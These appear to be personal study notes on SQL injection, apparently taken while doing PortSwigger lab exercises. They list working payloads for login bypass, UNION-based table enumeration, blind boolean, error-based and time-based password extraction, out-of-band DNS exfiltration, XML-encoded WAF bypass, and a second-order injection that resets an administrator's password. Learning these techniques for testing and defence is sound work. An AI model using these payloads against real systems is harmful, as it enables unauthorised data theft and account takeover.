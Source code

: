 ## SQL injection 
- SQLi vulnerabilities can allow an attacker to modify or delete data, compromise the underlying server or even perform `denial of service` attacks.

### Detection
- `'`, `OR 1=1`, `OR 1=2`, `time based payloads`, `OAST payloads`

### Common injection points
- SELECT * from Where **SQLi**
- UPDATE set x=1 where **SQLi**
- INSERT into x values (**SQLi**)
- SELECT **SQLi** from **SQLi** ORDER BY **SQLi**

- Ways to exploit login: username: `admin'--` or password=`pass'+OR+1=1--`

### SQL injection UNION attacks
- `EMBER MULTIPLE SELECT STATEMENTS`
-  **EX: SELECT A,B, FROM TABLE1 UNION SELECT C,D FROM TABLE2**
- This needs `same nr of columns`, and `compatible types of columns`
- STEPS: 
    - determine nr of columns 
        - `ORDER BY n` until it fails
        - `UNION SELECT NULL, NULL, NULL....(FROM DUAL -- FOR ORACLE)`until it succeeds and adds a null column
    - determine the types
        - `UNION SELECT 'a', NULL, NULL....(FROM DUAL -- FOR ORACLE)`until it succeeds and adds a null column
- `COMBINE MULTIPLE COLUMNS` : `SELECT USERNAME || '-' || PASSWORD FROM TABLE`(IN ORACLE)

- ### How to inspect the database tables and properties
    - `SELECT @@VERSION`**MYSQL**, `SELECT * FROM v$version` **ORACLE**, `SELECT version()` **PostgreSQL**
    - `SELECT * FROM information_schema.tables` or `.columns`
    - ex STEP1: category=Gifts' UNION SELECT table_name,NULL from information_schema.tables
    - ex STEP2: category=Gifts' UNION SELECT column_name,NULL from information_schema.columns where table_name='TABLENAME FOUND AT STEP 1'
    - ex STEP3: category=Gifts' UNION SELECT column1,column2 from 'TABLENAME FOUND AT STEP 1' -> to get the data

### Blind SQL injections
- `Cookies like TrackingId=jhkahkjdlsahlda9`can also be an injection point!
- Analyse the difference in behaviour for `'AND'1'='1` and for `'AND'1'='2` (ex: Welcome back message!)
- DETERMINE DATA ONE STEP AT A TIME
        - use `SUBSTRING(data, start, length)` for this
        - ex: `TrackingId=t5gh9WYA3E8wgTlF'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='§a§`


### Error-based SQL injection (BLIND)
- In case boolean SQLi doesn't have an indication of success visible in the application response, you turn to Error-based SQL injection and hope that unhandeld SQL errors will cause a difference in the response.
- Induce an error as an indication of success, or have the data returned into error messages -> visible SQLi.
- TEST PAYLOAD: `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END) = 'a`
- EXPLOIT PAYLOAD: `xyz' AND (SELECT CASE WHEN (username='admin' and substring(password, 1, 1)='a') THEN 1/0 ELSE 'a' END) = 'a`
- **Verbose error messages**:
    - CAST() to int to force a select result to generate an error with the output of the select.
    - `CAST((SELECT example_column FROM example_table) AS int)` -> `ERROR: invalid input syntax for type integer: "Example data"`
    - PAYLOAD: `TrackingId=' AND 1=CAST((SELECT password from users LIMIT 1) AS int)--`
- **Time based BLIND SQL injection**
    - if errors are handled in code, then your next idea is time based
    - These happen if the SQL is handles sinchrounously and if you add a delay in the sql query it should DELAY also the HTTP response (**inefficient if done async**)
    - PAYLOAD: `'%3b(SELECT CASE WHEN ((SELECT SUBSTRING(password,{i},1) from users where username='administrator')='{char}') THEN pg_sleep(3) ELSE pg_sleep(0) END)--`

### Blind SQL Out-of-band techinque(OAST)
- What if the SQL query is handled `asynchronously`? Then no more time based attacks...
- You need to trigger `OUT OF BAND interactions` to a system that you control.(DNS lookups)
- `Use Burp Collaborator for this!`
- If you identify that a DNS lookup happened to your domain, then you can append to the url the output of any query directly and you get them in the DNS query.

### XML encoded SQLi 
- You can encode your payload in any format: JSON, XML
- Sometimes there is a `WAF` to bypass -> you can use Hackvertor from BurpSUite extensions, and wrap your payload in a xml tag to bypass it
- ex: `
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>
1 
</productId><storeId><@dec_entities>1 UNION SELECT username||'+'||password from users LIMIT 5<@/dec_entities></storeId></stockCheck>`
- The `<@dec_entities>` tag is used to encode the sqli payload like this behind the scenes: 

    </productId><storeId>&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&#39;&#43;&#39;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#102;&#114;&#111;&#109;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#76;&#73;&#77;&#73;&#84;&#32;&#53;</storeId></stockCheck>

## Second order SQL injections = STORED SQli
- ex: create a username like: `badguy';update users set password='letmein' where user='administrator'` -> trigger the SQLi in a later HTTP request
